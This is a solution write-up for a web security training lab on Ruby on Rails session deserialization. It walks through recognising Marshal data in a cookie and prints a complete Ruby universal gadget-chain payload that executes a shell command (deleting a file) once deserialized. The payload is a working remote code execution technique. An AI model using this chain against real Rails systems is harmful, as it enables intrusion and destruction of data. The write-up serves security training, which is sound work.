






# Exploiting Ruby deserialization using a documented gadget chain
# Objective
This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized data. File `phpinfo.php` is accessible for everyone. It contains `SECRET_KEY`.
||
|:--:| 
| *Session cookie* |
||
| *Session cookie decoding* |

## Exploitation
### Framework identification
The cookie holds Ruby (marshaled) serialized data, which can be recognized by starting 2 bytes `\x04\x08` and information from error.

||
|:--:| 
| *Session cookie decoding* |
||
| *Request with modified cookie* |
| Framework information |


### Exploiting Ruby deserialization using a documented gadget chain
Deserialization can be exploited by using [Universal Deserialisation Gadget for Ruby 2.x-3.x](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html). Payload below was later compiled using Ruby `2.7.0`.

Payload:
```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

||
|:--:| 
| *Payload compilation* |
||
| *Deletion of target file* |

